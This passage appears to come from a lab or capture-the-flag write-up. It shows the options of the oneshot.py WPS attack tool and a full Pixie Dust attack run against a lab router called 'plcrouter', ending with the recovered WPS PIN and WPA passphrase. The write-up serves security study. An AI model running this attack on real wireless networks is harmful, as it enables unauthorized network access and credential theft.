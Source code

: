 ```
  -X, --show-pixie-cmd  Always print Pixiewps command
  -B, --bruteforce      Run online bruteforce attack
  --pbc, --push-button-connect
                        Run WPS push button connection
  -d DELAY, --delay DELAY
                        Set the delay between pin attempts
  -w, --write           Write credentials to the file on success
  --iface-down          Down network interface when the work is finished
  --vuln-list VULN_LIST
                        Use custom file with vulnerable devices list
  -l, --loop            Run in a loop
  -r, --reverse-scan    Reverse order of networks in the list of networks.
                        Useful on small displays
  --mtk-wifi            Activate MediaTek Wi-Fi interface driver on startup
                        and deactivate it on exit (for internal Wi-Fi adapters
                        implemented in MediaTek SoCs). Turn off Wi-Fi in the
                        system settings before using this.
  -v, --verbose         Verbose output

Example: oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K

```

The example run shows also passing it the BSSID and `-K` to do the the Pixie Dust attack. I’ll start there. I’ve got the BSSID from the `iw` or `iwlist` output:

```

Example: oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
root@attica02:/root# python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: E72EAF0BBFE6360C3CCC2A538B13AFC3
[*] Sending WPS Message M2…
[P] PKR: 37D283C42A47D0FAEA7B4BB3A0F92F248CF812F109AA480CCEB4D3846BA28673DF65C1A94C764A8B45533A09ADF99B58EF7541ABC87F8C558382E3E990288CE575897BA4EE847A801D2E1FF23878BEFBFB3AACA29609F61A346583CC84A57A877B03E66271AE05538C2A6CACE4DF04634D6F5773661E72F8E67E5BF3BD9A3AA57178E0B9B9569FC4CA719CD1CDFAC04E923D039B1230D6993FAACAF38341CC920E0806B23995902A2F73ED9A1ACA91A83F0EBD0858D337C380E3CFFE768C4AD8
[P] PKE: 7C87C5A1EE77C29D189CADE4F2880A7A9F13AC00065284D11D7D219D1F449D23C42214319F73666ECF449ED7161A2982DF49A937F19A2F66EBFE21F3E54AC21CA70C63E21339BDCED0F6123D6AA3B8C4AD9B6B3C794F277F32D3577D3C1906F153A1E6AB0B62DE047DAF5BF96C1E1BCE0D77931095ADEC529A0B9E911BC67DB24E80C0718215E9B6729C5CCD872BFAA175DE1C17D095E2C80D1D76ACA3C68FA0C63B446DE12C387CEA3427217E4F5B1EBF23AF091B702DBEEDBCF82CB8B5EE95
[P] AuthKey: 3DFF292549E90FE647F937246629D0EC32196BF57E208192128D0496B5C100AB
[*] Received WPS Message M3
[P] E-Hash1: 198497215A04DCFF3BA53AE859304708E6C45A4B479D5E068220ADBE4E14FA8C
[P] E-Hash2: 252262612C4E5CA4A185553AB4F20B8C847D7B88077B4C8A19C60B9ADA1814C0
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'

```